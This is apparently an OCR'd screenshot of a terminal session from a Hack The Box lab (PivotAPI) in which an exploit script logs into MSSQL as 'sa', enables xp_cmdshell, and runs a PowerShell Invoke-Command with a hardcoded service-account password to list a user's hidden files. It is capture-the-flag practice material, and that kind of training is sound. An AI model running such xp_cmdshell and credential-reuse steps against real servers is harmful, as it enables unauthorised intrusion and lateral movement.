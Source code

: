 ```ruby

╭─kali@kali ~/Documents/HTB/PivotApi  
╰─➤  python3 xdev05.py                                                                                                                                                                                        134 ↵
/home/kali/Documents/HTB/PivotApi/xdev05.py:3: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated since Python 3.3, and in 3.10 it will stop working
  import _mssql
Successful login: sa@10.10.10.240
Trying to enable xp_cmdshell ...
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\Windows\system32> powershell.exe -command "$password = ConvertTo-SecureString '#mssql_s3rV1c3!2020' -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential ('LICORDEBELLOTA\svc_mssql', $password); Invoke-Command -Credential $credential -ComputerName PivotAPI -ScriptBlock {Get-ChildItem C:\Users\svc_mssql\ -Recurse -Hidden}"



    Directorio: C:\Users\svc_mssql


Mode                LastWriteTime         Length Name                                PSComputerName                    
----                -------------         ------ ----                                --------------                    
d--h--       08/08/2020     19:45                AppData                             PivotAPI                          
d--hsl       08/08/2020     19:45                Configuración local                 PivotAPI                          
d--hsl       08/08/2020     19:45                Cookies                             PivotAPI                          
d--hsl       08/08/2020     19:45                Datos de programa                   PivotAPI                          
d--hsl       08/08/2020     19:45                Entorno de red                      PivotAPI                          
d--hsl       08/08/2020     19:45                Impresoras                          PivotAPI                          
d--hsl       08/08/2020     19:45                Menú Inicio                         PivotAPI                          
d--hsl       08/08/2020     19:45                Mis documentos                      PivotAPI                          
d--hsl       08/08/2020     19:45                Plantillas                          PivotAPI                          
d--hsl       08/08/2020     19:45                Reciente                            PivotAPI                          
d--hsl       08/08/2020     19:45                SendTo                              PivotAPI                          
-a-h--       27/05/2021     14:29         262144 NTUSER.DAT                          PivotAPI                          
-a-hs-       08/08/2020     19:45         118784 ntuser.dat.LOG1                     PivotAPI                          
-a-hs-       08/08/2020     19:45          32768 ntuser.dat.LOG2                     PivotAPI                          
-a-hs-       08/08/2020     19:45          65536 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21- PivotAPI                          
                                                 e41d2d101530}.TM.blf                                                  
-a-hs-       08/08/2020     19:45         524288 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21- PivotAPI                          
                                                 e41d2d101530}.TMContainer0000000000                                   
                                                 0000000001.regtrans-ms                                                
```